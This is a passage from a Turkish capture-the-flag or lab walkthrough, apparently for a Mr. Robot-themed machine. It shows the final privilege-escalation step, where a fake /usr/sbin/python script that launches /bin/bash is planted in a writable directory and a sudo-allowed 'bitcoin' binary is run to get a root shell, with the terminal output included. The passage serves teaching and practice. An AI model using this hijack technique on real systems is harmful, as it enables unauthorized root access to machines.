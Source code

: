 /usr/sbin dizininde tüm izinler mevcut. /usr/sbin dizininde python adında bir dosya oluşturalım ve root olabilecek şekilde değişiklik yapalım.

Bir dosyaya çoklu satırda girdi girebilmek için cat > << EOF kullanılır.

````bash
Orka@osboxes:~/Desktop$ cat > /usr/sbin/python << EOF
cat > /usr/sbin/python << EOF
> #!/bin/bash
#!/bin/bash
> /bin/bash
/bin/bash
> EOF
EOF
````

Python dosyasını root olacak şekilde ayarladık. 

`chmod +x /usr/sbin/python` ile dosyayı çalıştırma izni verelim.

Ve son olarak `sudo /home/Orka/Desktop/bitcoin` ile dosyayı çalıştıralım.

````bash
Orka@osboxes:~/Desktop$ sudo /home/Orka/Desktop/bitcoin
sudo /home/Orka/Desktop/bitcoin
Enter the password : password
password
Access Granted...
			User Manual:			
Maximum Amount Of BitCoins Possible To Transfer at a time : 9 
Amounts with more than one number will be stripped off! 
And Lastly, be careful, everything is logged :) 
Amount Of BitCoins : 31
31
root@osboxes:~/Desktop#  
````

Makineyi rootladık :)

---

![fsoc](/images/fsoc.gif)









